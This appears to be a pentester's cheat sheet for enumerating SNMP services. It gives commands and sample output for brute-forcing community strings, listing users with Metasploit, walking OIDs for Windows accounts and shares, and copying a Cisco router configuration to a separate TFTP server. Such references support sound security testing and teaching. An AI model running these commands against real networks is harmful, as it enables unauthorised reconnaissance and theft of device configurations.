

# 161 - SNMP

### Information

It's important to remember that SNMP has 3 versions:

| Version | Info |
| :--- | :--- |
| 1 | The initial version of the protocol. It is easy to set up and is defined in RFC 1155 and 1157. |
| 2c | The revised version with enhanced protocol packet types, transport mappings, and MIB structure elements, but also uses the existing SNMPv1 administration structure \("community-based" and hence SNMPv2c\). |
| 3 | Facilitates remote configuration of SNMP entities. It also adds both encryption and authentication, which can be used together or separately, making this the most secure version yet. |

### Install SNMP-MiBS 

```text
apt install snmp-mibs-downloader 
echo "" > /etc/snmp/snmp.conf 
```

### Discover SNMP

`nmap -p 161 -sU -oA nmap_udp_snmp 10.10.10.92` 

### Scan Host

```text
snmpwalk -v2c -c public 192.168.1.234 
-v = version of the SNMP - most poplur 2c 
-c = the public string (default public) 
```

### Brute force community string

```text
./onesixtyone -c /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.10.92 
Scanning 1 hosts, 122 communities 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
```

### **Metasploit - Enumerate users**

```text
msf5 auxiliary(scanner/snmp/snmp_enumusers) > show options  
Module options (auxiliary/scanner/snmp/snmp_enumusers): 
   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   COMMUNITY  public           yes       SNMP Community String 
   RETRIES    1                yes       SNMP Retries 
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax '
file:<path>
' 
   RPORT      161              yes       The target port (UDP) 
   THREADS    1                yes       The number of concurrent threads (max one per host) 
   TIMEOUT    1                yes       SNMP Timeout 
   VERSION    1                yes       SNMP Version <1/2c> 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > set rhosts 192.168.0.41 
rhosts => 192.168.0.41 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > run 
[+] 192.168.0.41:161 Found 6 users: daemon, jack, noaccess, nobody, root, smmsp 
[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

### SNMP IPv6 Enumeration 

Enyx is an enumerator tool about grabbing the possible IPV6 of a machine through the snmp protocol. 

### SNMPv3 

Identify SNMPv3 servers with nmap: 

`nmap -sV -p 161 --script=snmp-info TARGET-SUBNET` 

Rory McCune’s snmpwalk wrapper script helps automate the username enumeration process for SNMPv3: 

```text
apt-get install snmp snmp-mibs-downloader 
wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb
```

###  SNMP  Enumeration - Windows tool

Getif is a free multi-functional Windows GUI based Network Tool written by Philippe Simonet.  It is amongst other things, an excellent SNMP tool that allows you to collect and graph information from SNMP devices. 

Download: 

[http://www.wtcs.org/snmp4tpc/getif.htm](http://www.wtcs.org/snmp4tpc/getif.htm) 

Install and set compatability as Windows XP SP2 

Press STRAT once you put the IP and public commuinty 

Download the  SNMP4tPC Getif MIB collection as well.



For each tab press 'start' to get the information  

`Error: If you getting 'DllRegisterServer (msflxgrd) failed' error` – run the software as administrator  

### **Common Mibs**

**interfaces**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.2.2` 

**Windows User Accounts**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25` 

**Windows Running Programs**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2` 

**Windows Hostname**   
`snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5` 

**Windows Share Information**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1` 

**Windows Share Information**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27` 

**Windows TCP Ports**   
`snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3` 

**Software Name**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2` 

**SysLocation**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.1.6`

### Solaris MIBS

Enumerate users on solaris:

`use auxiliary/scanner/snmp/snmp_enumusers`

### Download Cisco Conf

Copies configuration files from Cisco devices running SNMP. 

**Usage**: 

```text
root@kali:~# copy-router-config.pl 
###################################################### 
# Copy Cisco Router config  - Using SNMP 
# Hacked up by muts - muts@offensive-security.com 
####################################################### 
Usage : ./copy-copy-config.pl <router-ip> <tftp-serverip> <community> 
Make sure a TFTP server is set up, preferably running from /tmp ! 
```

**Example:** 

`root@kali:~# copy-router-config.pl 192.168.1.1 192.168.1.15 private`


